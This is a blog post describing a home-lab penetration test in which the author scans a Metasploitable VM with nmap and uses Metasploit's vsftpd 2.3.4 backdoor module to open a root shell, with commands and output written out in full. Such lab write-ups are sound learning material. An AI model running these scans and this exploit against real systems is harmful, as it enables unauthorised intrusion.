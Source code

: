<!--hacking, metasploit, ftp-->
# Let's hack stuff!

First and fore most, long time no see. The last couple of months flew by and I haven't really been in the mood of writing. 
Now I stated experimenting with Kali again and figured I might as well document it.

## The environment

I have set up a Kali VM - the atacker - and a Metasploitable VM - the target - in VirtualBox, that I will be using in this post. 
Kali is a Linux distro designed for hacking/pentesting and is loaded with tools. Metasploitable is an Ubuntu VM loaded with poorly 
configured applications that are easily hackable. I will post installation instructions in a future post, but most of it is dead 
simple and easily found online already. 

## The hack

This is a very simple exploit and took about ten minutes. The write up took significantly longer!

### Scanning the network

So after I have fired up my VMs I open the attacking machine and start a terminal. The first thing I want to do is find out where my 
target is so I turn to `nmap` and run (result edited):

    # nmap  192.168.56.0/24

    Nmap scan report for 192.168.56.103
    Host is up (0.00013s latency).
    Not shown: 977 closed ports
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    23/tcp   open  telnet
    25/tcp   open  smtp
    53/tcp   open  domain
    80/tcp   open  http
    111/tcp  open  rpcbind
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    512/tcp  open  exec
    513/tcp  open  login
    514/tcp  open  shell
    1099/tcp open  rmiregistry
    1524/tcp open  ingreslock
    2049/tcp open  nfs
    2121/tcp open  ccproxy-ftp
    3306/tcp open  mysql
    5432/tcp open  postgresql
    5900/tcp open  vnc
    6000/tcp open  X11
    6667/tcp open  irc
    8009/tcp open  ajp13
    8180/tcp open  unknown
 
I can identify the target by the loads of open ports. This is a virtual network so there are no other machines on the network, this 
makes finding the target easier than it would be in the wild. In a real life scenario you would have to do some research in order 
to know what machine you should target.

Now that we have our target, `192.168.56.103` we can do a more advanced scan:

    # nmap -sV -O -p1-65535 192.168.56.103 > target
    
This will scan all the ports (`-p1-65535`) of particular machine, it will also try to detect the OS (`-O`) and further more it will try
to identify what versions the software listening to each open port are running (`-sV`). I save this to a file called `target` 
since I like to reference the scan later on.

In this excercise I am only interested in the fisrt service running on port 21, the second scan returns the following:

    21/tcp open  ftp     vsftpd 2.3.4

We now have a bit more information about our target. We know the application name and version number, this will help us find an exploit.

### Finding an exploit

There are two things we can do now, either scan the machine with a vulnerability scanner or search for an exploit manually. 
I decided to do a quick manual search and launch a vulnerability scanner if I didn't get quick results. 

Metasploit is our friend here so I launch it with `#msfconsole` and do the following:

    msf > search vsftpd

    Matching Modules
    ================

       Name                                  Disclosure Date  Rank       Description
       ----                                  ---------------  ----       -----------
       exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution

Jackpot! We found a vulnerability with an excellent rating that affects the exact version our target is running. 
Let's find out more, again the output is edited for brevity.

    msf> info exploit/unix/ftp/vsftpd_234_backdoor 
    
    Name: VSFTPD v2.3.4 Backdoor Command Execution
    Module: exploit/unix/ftp/vsftpd_234_backdoor
    Platform: Unix
    Privileged: Yes
    License: Metasploit Framework License (BSD)
    Rank: Excellent
    Disclosed: 2011-07-03

    Description:
      This module exploits a malicious backdoor that was added to the 
      VSFTPD download archive. This backdoor was introduced into the 
      vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
      according to the most recent information available. This backdoor 
      was removed on July 3rd 2011.

This sounds really juicy so I will try it out. First I pick the exploit and show all options for it:

    msf > use exploit/unix/ftp/vsftpd_234_backdoor 
    msf exploit(vsftpd_234_backdoor) > show options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOST                   yes       The target address
       RPORT  21               yes       The target port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic

This tells me that I need to set the target, denoted by RHOST. I set it and show all available payloads:

    msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.56.103
    RHOST => 192.168.56.103
    msf exploit(vsftpd_234_backdoor) > show payloads

    Compatible Payloads
    ===================

       Name               Disclosure Date  Rank    Description
       ----               ---------------  ----    -----------
       cmd/unix/interact                   normal  Unix Command, Interact with Established Connection

There is only a single payload available so I select that and launch my attack!


    msf exploit(vsftpd_234_backdoor) > set payload cmd/unix/interact 
    payload => cmd/unix/interact
    msf exploit(vsftpd_234_backdoor) > exploit

    [*] Banner: 220 (vsFTPd 2.3.4)
    [*] USER: 331 Please specify the password.
    [+] Backdoor service has been spawned, handling...
    [+] UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.104:33322 -> 192.168.56.103:6200) at 2014-11-12 13:45:57 -0500

Succes we have a shell, and as an added bonus:

    whoami
    root
    
### Summary

This exploit was a very simple challenge and I could execute it with very simple tools. 
Hopefully the next service (SSH running on port 22) will be a little tougher.
